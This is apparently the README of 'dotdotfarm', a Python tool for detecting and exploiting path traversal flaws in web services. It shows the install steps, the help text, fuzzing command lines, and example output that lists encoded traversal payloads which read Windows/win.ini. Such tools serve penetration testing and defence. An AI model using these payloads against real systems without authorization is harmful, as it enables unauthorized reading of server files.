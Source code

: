 dotdotfarm
==========

![Version](https://img.shields.io/badge/version-1.5.2-blue?style=for-the-badge)

Utility for detection & exploitation of Path Traversal vulnerabilities in various network services

dotdotweb - PT tool for HTTP services


Tools are written in Python with using asyncio requests (aiohttp) with some acceleration techniques, which allows you to make up to ~3K requests per second

Features
========
- async client for parallel requesting of target (speedup)
- ability to fetch files' content after succeeding a payload
- specifying payload in any part of query (url, headers or POST data)
- using callbacks for future handling of results

Installation
============
Install from PyPi
```bash
pip install dotdotfarm
```
You can also install it directly from GitHub repository
```bash
git clone https://github.com/treddis/dotdotfarm.git
cd dotdotfarm
pip install -r requirements.txt
pip3 install .
```

Usage
=====
```text

    .___      __      .___      __    _____                      
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____  
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \ 
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/ 
     
usage: dotdotweb [-h] [--version] [-V] [-A] [-R] [-o {windows,linux}]
                 [-d DEPTH] [-f FILE] [--delay DELAY]
                 [-t TIMEOUT] [-fs FS] [-fc FC] [--header HEADERS] [--data DATA]
                 url

fast path traversal identificator & exploit

positional arguments:
  url                   target URL

options:
  -h, --help            show this help message and exit
  --version             print version of the tool
  -V, --validate        validate files' content after successfull exploitation
                            (default false)
  -A, --all             try all files after successfull exploitation
                            (default false)
  -R, --print-files     read traversed files (default false)
  -o {windows,linux}, --os-type {windows,linux}
                        target OS type (default all)
  -d DEPTH, --depth DEPTH
                        depth of PT searching (default 5)
  -f FILE, --file FILE  specific file for PT detection
  --delay DELAY         make delays between requests in milliseconds (default 0)
  -t TIMEOUT, --timeout TIMEOUT
                        timeout of connections (default 60)
  -fs FS                filter output by size
  -fc FC                filter output by response code
  --header HEADERS      custom header for requests
  --data DATA           specify POST data
```

Passing in GET parameters
----------------------
Passing brute parameters via `?par=val` pairs:
```bash
dotdotweb -o windows -fc 500 \ 
          http://someserver.com:1280/newpath?testparameter=FUZZ&secondparameter=somevalue
```

Passing via headers
-------------------
Passing brute parameters via `Origin: master=FUZZ` pairs:
```bash
dotdotweb -o linux -fc 500,404 -H "Referer: https://www.google.com/path?q=FUZZ" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Passing via POST data
---------------------
Passing brute parameters via POST data parameters
```bash
dotdotweb -o linux -fc 500 -fs 111 -d "key0=val0&key1=val1" \
          http://someserver.com:1280/newpath?testparameter=firstvalue&secondparameter=somevalue
```

Example output
==============
```bash
dotdotweb -o windows "http://localhost:8080/pathtrav?query=FUZZ" 

    .___      __      .___      __    _____
  __| _/_____/  |_  __| _/_____/  |__/ ____\____ _______  _____
 / __ |/  _ \   __\/ __ |/  _ \   __\   __\\__  \\_  __ \/     \
/ /_/ (  <_> )  | / /_/ (  <_> )  |  |  |   / __ \|  | \/  Y Y  \
\____ |\____/|__| \____ |\____/|__|  |__|  (____  /__|  |__|_|  /
     \/                \/                       \/            \/

[*] Started at Sun Jan 22 19:32:46 2023
 ../../../Windows/win.ini                                                   [Status: 200, Size: 111]
 ../Windows/win.ini                                                         [Status: 200, Size: 111]
 ..\Windows\win.ini                                                         [Status: 200, Size: 111]
 ..%2fWindows%2fwin.ini                                                     [Status: 200, Size: 111]
 ..\..\..\Windows\win.ini                                                   [Status: 200, Size: 111]
 ..%5c..%5c..%5cWindows%5cwin.ini                                           [Status: 200, Size: 111]
 ..%5cWindows%5cwin.ini                                                     [Status: 200, Size: 111]
 .%2e/Windows/win.ini                                                       [Status: 200, Size: 111]
 .%2e\Windows\win.ini                                                       [Status: 200, Size: 111]
 .%2e%2fWindows%2fwin.ini                                                   [Status: 200, Size: 111]
 .%2e%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %5C..%5cWindows%5cwin.ini                                                  [Status: 200, Size: 111]
 f%5C..%2fWindows%2fwin.ini                                                 [Status: 200, Size: 111]
 %5C../Windows/win.ini                                                      [Status: 200, Size: 111]
 %5C..\%5C..\%5C..\Windows\win.ini                                          [Status: 200, Size: 111]
 .%2e\.%2e\.%2e\Windows\win.ini                                             [Status: 200, Size: 111]
 .%2e%5c.%2e%5c.%2e%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 %5C..%2f%5C..%2f%5C..%2fWindows%2fwin.ini                                  [Status: 200, Size: 111]
 %5C../%5C../%5C../Windows/win.ini                                          [Status: 200, Size: 111]
 %5C..%5c%5C..%5c%5C..%5cWindows%5cwin.ini                                  [Status: 200, Size: 111]
 %2e./Windows/win.ini                                                       [Status: 200, Size: 111]
 %2e./%2e./%2e./Windows/win.ini                                             [Status: 200, Size: 111]
 %2e.%5cWindows%5cwin.ini                                                   [Status: 200, Size: 111]
 %2e.%5c%2e.%5c%2e.%5cWindows%5cwin.ini                                     [Status: 200, Size: 111]
 .%2e%2f.%2e%2f.%2e%2fWindows%2fwin.ini                                     [Status: 200, Size: 111]
100%|██████████████████████████████████████████████████████████| 6960/6960 [00:12<00:00, 575.63it/s]
[*] Ended at Sun Jan 22 19:32:58 2023 (11 seconds)
```
